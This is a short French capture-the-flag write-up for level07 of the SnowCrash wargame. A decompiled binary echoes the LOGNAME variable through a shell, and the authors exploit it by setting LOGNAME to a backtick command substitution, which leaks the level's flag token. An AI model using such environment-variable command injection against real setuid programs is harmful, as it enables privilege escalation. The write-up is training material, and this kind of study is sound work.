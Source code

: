 # Level 07

On a un exécutable qui s'appelle `level07`, quand on le lance, ça print `level07`

À première vue on pourrait penser qu'il print le nom de l'exécutable, mais en le décompilant avec ghidra on peut voir dans le main qu'il fait
```c
pcVar1 = getenv("LOGNAME");
asprintf(&local_1c,"/bin/echo %s ",pcVar1);
```
il print donc la valeur de la variable d'environnement `LOGNAME`

On a commencé par simplement essayer de remplacer la valeur de LOGNAME par `getflag`
```sh
level07@SnowCrash:~$ LOGNAME=getflag
level07@SnowCrash:~$ ./level07 
getflag
```
Évidemment c'est pas si simple, ça affiche juste `getflag`, mais au moins maintenant on est sur qu'il affiche bien la valeur de `LOGNAME`

En se basant sur ce qu'on a apprit sur les level précédents, on est allés voir s'il existe une syntaxe de command substitution en bash comme on a pu voir en perl ou en php: https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html

on essaye donc avec `getflag` dans des backtick et bingo:
```sh
level07@SnowCrash:~$ LOGNAME='`getflag`'
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```